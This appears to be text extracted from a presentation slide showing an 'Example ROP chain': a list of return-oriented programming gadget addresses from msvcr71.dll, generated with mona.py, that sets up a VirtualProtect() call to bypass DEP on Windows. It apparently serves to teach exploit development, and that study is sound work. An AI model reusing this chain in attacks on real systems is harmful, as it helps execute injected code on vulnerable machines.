

# Example ROP chain
rop_gadgets =
[
	0x7c37653d, 	# POP EAX # POP EDI # POP ESI # POP EBX # POP EBP # RETN
	0xfffffdff,	# Value to negate, will become 0x00000201 (dwSize)
	0x7c347f98,	# RETN (ROP NOP) [msvcr71.dll]
	0x7c3415a2,	# JMP [EAX] [msvcr71.dll]
	0xffffffff,	#
	0x7c376402,	# skip 4 bytes [msvcr71.dll]
	0x7c351e05,	# NEG EAX # RETN [msvcr71.dll]
	0x7c345255,	# INC EBX # FPATAN # RETN [msvcr71.dll]
	0x7c352174,	# ADD EBX,EAX # XOR EAX,EAX # INC EAX # RETN [msvcr71.dll]
	0x7c344f87,	# POP EDX # RETN [msvcr71.dll]
	0xffffffc0,	# Value to negate, will become 0x00000040
	0x7c351eb1,	# NEG EDX # RETN [msvcr71.dll]
	0x7c34d201,	# POP ECX # RETN [msvcr71.dll]
	0x7c38b001,	# &Writable location [msvcr71.dll]
	0x7c347f97,	# POP EAX # RETN [msvcr71.dll]
	0x7c37a151,	# ptr to &VirtualProtect() - 0x0EF [IAT msvcr71.dll]
	0x7c378c81,	# PUSHAD # ADD AL,0EF # RETN [msvcr71.dll]
	0x7c345c30,	# ptr to 'push esp #  ret ' [msvcr71.dll]
	# rop chain generated with mona.py
].pack("V*")